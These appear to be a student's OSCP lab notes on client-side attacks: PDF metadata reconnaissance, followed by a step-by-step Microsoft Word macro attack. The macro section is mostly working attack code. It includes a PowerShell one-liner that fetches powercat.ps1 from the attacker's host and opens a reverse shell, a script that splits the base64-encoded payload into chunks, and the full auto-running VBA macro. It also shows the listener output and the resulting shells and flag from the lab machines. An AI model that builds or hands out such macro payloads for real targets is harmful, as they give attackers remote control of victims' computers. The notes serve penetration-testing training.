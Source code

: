 
#### 11.1. Target Reconnaissance
###### 11.1.1. Information Gathering
1. Displaying the metadata for brochure.pdf.
```
┌──(kali㉿kali)-[~/OSCP/11]
└─$ exiftool -a u brochure.pdf 
Error: File not found - u
======== brochure.pdf
ExifTool Version Number         : 12.57
File Name                       : brochure.pdf
Directory                       : .
File Size                       : 311 kB
File Modification Date/Time     : 2024:01:27 21:42:52-05:00
File Access Date/Time           : 2024:01:27 21:42:52-05:00
File Inode Change Date/Time     : 2024:01:27 21:42:52-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 4
Language                        : de-DE
Tagged PDF                      : Yes
XMP Toolkit                     : Image::ExifTool 12.41
Creator                         : Stanley Yelnats
Title                           : Mountain Vegetables
Author                          : Stanley Yelnats
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Create Date                     : 2022:04:27 07:34:01+02:00
Creator Tool                    : Microsoft® PowerPoint® for Microsoft 365
Modify Date                     : 2022:04:27 07:34:01+02:00
Document ID                     : uuid:B6ED3771-D165-4BD4-99C9-A15FA9C3A3CF
Instance ID                     : uuid:B6ED3771-D165-4BD4-99C9-A15FA9C3A3CF
Title                           : Mountain Vegetables
Author                          : Stanley Yelnats
Create Date                     : 2022:04:27 07:34:01+02:00
Modify Date                     : 2022:04:27 07:34:01+02:00
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Creator                         : Stanley Yelnats
    1 image files read
    1 files could not be read
```

*Lab Exercise*
1. exiftool -a u old.pdf 
2. gobuster dir -u http://192.168.244.197/ -w /usr/share/wordlists/dirb/small.txt -x pdf  (info.pdf)

###### 11.1.2. Client Fingerprinting

https://canarytokens.org/generate


#### 11.2. Exploiting Microsoft Office
###### 11.2.1. Preparing the Attack
1. Instruction on how to built macros on document. 
###### 11.2.2. Installing Microsoft Office
1. Instruction on how to install offce. 
```
Rdp connection. 
sudo xfreerdp /u:student /p:lab /v:192.168.244.196
```
###### 11.2.3. Leveraging Microsoft Word Macros

1. Install office from previous section. 
2. Create new word file with mymacro.doc name with similar file type. 
3. Then, check out macro view>macro in that document. 
4. Type 'MyMacro', macros in: mymacro (document) then click create.  Next will be step 7. 
5. Before that Convert following into base64 encode utf-16le. 
```
#Reverse shell for windows 
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```
6. Python split script. 
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
7. Edit macro like this
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
  Dim Str As String
  Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
Str = Str + "ALgAxADYAOAAuADQANQAuADEAOQA1AC8AcABvAHcAZQByAGMAY"
Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA1ACAALQBwA"
Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
Str = Str + "A"

  
  CreateObject("Wscript.Shell").Run Str

End Sub
```
8. Establish powercat.ps1 http server. 
```
┌──(kali㉿kali)-[/usr/…/server/data/module_source/management]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.244.198 - - [27/Jan/2024 23:51:20] "GET /powercat.ps1 HTTP/1.1" 200 -
```
9. Netcat Listener, obtained reverse shell, macros working. 
```
┌──(kali㉿kali)-[~/OSCP/11]
└─$ sudo nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.244.196] 61725
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Desktop>
```

*Lab Exercise*
1. Check out theory. 
2. Follow these steps. #smbfilesharew-l
```
1. Getting macro file from windows to kali host. 
a. Create a share folder using smb in kali. 

┌──(kali㉿kali)-[~/OSCP/11]
└─$ python3 /home/kali/impacket/examples/smbserver.py -smb2support myshare2 .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.244.196,62184)
[*] AUTHENTICATE_MESSAGE (OFFICE\offsec,OFFICE)
[*] User OFFICE\offsec authenticated successfully

b. Copy macro file to share folder in windows. 
PS C:\Users\offsec\Desktop> net use \\192.168.45.195\myshare2           
net use \\192.168.45.195\myshare2
The command completed successfully.

2. Change file name to ticket.doc

3. Add host in /etc/hosts. Then upload ticket.doc. 

4. Wait for upto 3 minutes, obtained reverse shell and flag. 

┌──(kali㉿kali)-[~/OSCP/11]
└─$ sudo nc -nvlp 4444       
listening on [any] 4444 ...
connect to [192.168.45.195] from (UNKNOWN) [192.168.244.198] 52490
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\Administrator\Pictures>

PS C:\Users\Administrator\Desktop> cat flag.txt
cat flag.txt
OS{89a24ff125ff3b7d1d879a9c2225114b}
```

#### 11.3. Abusing Windows Library Files
###### 11.3.1. Obtaining Code Execution via Windows Library Files


#### 11.4. Wrapping Up


